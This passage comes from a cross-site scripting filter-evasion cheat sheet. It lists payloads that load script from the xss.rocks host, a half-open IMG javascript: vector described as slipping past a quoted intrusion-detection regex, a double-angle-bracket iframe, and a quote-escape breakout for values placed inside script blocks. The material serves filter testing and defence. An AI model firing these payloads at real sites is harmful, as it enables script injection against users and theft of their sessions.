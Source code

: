 `<SCRIPT SRC=//xss.rocks/.j>`

## Half open HTML/JavaScript XSS vector

Unlike Firefox the IE rendering engine doesn't add extra data to your
page, but it does allow the javascript: directive in images. This is
useful as a vector because it doesn't require a close angle bracket.
This assumes there is any HTML tag below where you are injecting this
cross site scripting vector. Even though there is no close "\>" tag the
tags below it will close it. A note: this does mess up the HTML,
depending on what HTML is beneath it. It gets around the following NIDS
regex: /((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/
because it doesn't require the end "\>". As a side note, this was also
affective against a real world XSS filter I came across using an open
ended \<IFRAME tag instead of an \<IMG tag:

`<IMG SRC="`<javascript:alert>`('XSS')"`

## Double open angle brackets

Using an open angle bracket at the end of the vector instead of a close
angle bracket causes different behavior in Netscape Gecko rendering.
Without it, Firefox will work but Netscape won't:

`<iframe src=http://xss.rocks/scriptlet.html <`

## Escaping JavaScript escapes

When the application is written to output some user information inside
of a JavaScript like the following:

<SCRIPT>

var a="$ENV{QUERY\_STRING}";

</SCRIPT>

and you want to inject your own JavaScript into it but the server side
application escapes certain quotes you can circumvent that by escaping
their escape character. When this gets injected it will read

<SCRIPT>

var a="\\\\";alert('XSS');//";

</SCRIPT>

which ends up un-escaping the double quote and causing the Cross Site
Scripting vector to fire. The XSS locator uses this method.:

`\";alert('XSS');//`

An alternative, if correct JSON or Javascript escaping has been applied
to the embedded data but not HTML encoding, is to finish the script
block and start your own:
